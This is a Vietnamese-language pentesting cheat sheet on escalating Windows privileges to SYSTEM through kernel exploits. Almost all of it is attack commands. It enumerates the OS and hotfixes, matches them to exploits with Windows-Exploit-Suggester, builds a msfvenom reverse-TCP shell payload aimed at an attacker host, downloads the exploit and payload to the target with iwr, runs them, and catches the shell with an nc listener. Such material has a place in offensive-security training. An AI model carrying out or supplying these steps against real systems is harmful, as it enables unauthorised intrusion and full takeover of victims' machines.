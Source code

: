 # Kernel Exploit

## Điểm chính khai thác

* Khai thác các lỗ hổng trong kernel Windows (như lỗi quản lý bộ nhớ, xử lý token, hoặc driver) để leo thang đặc quyền từ tài khoản người dùng thông thường lên **NT AUTHORITY\SYSTEM.**
* Lệnh `systeminfo` giúp thu thập thông tin về phiên bản OS, kiến trúc, và hotfix để xác định các lỗ hổng kernel chưa được vá.
* Các công cụ như **Windows-Exploit-Suggester**, **Sherlock**, hoặc **Exploit-DB** hỗ trợ xác định phiên bản OS và hotfix với các CVE kernel phù hợp.

## Các bước khai thác

### Kiểm tra lỗ hổng

#### Xác định mục tiêu tiềm năng

Thu thập thông tin hệ thống để xác định phiên bản OS, kiến trúc, và hotfix đã cài đặt:

{% code overflow="wrap" %}

```
systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"
```

{% endcode %}

#### Phân tích ngữ cảnh thực thi

So sánh thông tin `systeminfo` với cơ sở dữ liệu CVE để tìm kernel exploit phù hợp:

{% code overflow="wrap" %}

```
python windows-exploit-suggester.py --database 2025-05-16-mssb.xls --systeminfo systeminfo.txt
```

{% endcode %}

### Thực thi khai thác

#### Chuẩn bị payload hoặc mã khai thác

Tạo payload reverse shell để sử dụng với exploit:

{% code overflow="wrap" %}

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<kali_ip> LPORT=443 -f exe -o shell.exe
```

{% endcode %}

Tải exploit binary và payload lên thư mục tạm trên mục tiêu:

```
iwr -Uri http://<kali_ip>/<kernel_exploit>.exe -OutFile C:\Temp\exploit.exe
iwr -Uri http://<kali_ip>/shell.exe -OutFile C:\Temp\shell.exe
```

#### Áp dụng khai thác

Thực thi kernel exploit để chạy payload với đặc quyền SYSTEM:

```
./exploit.exe shell.exe
```

Chờ kết nối reverse shell:

```
nc -lvnp 443
```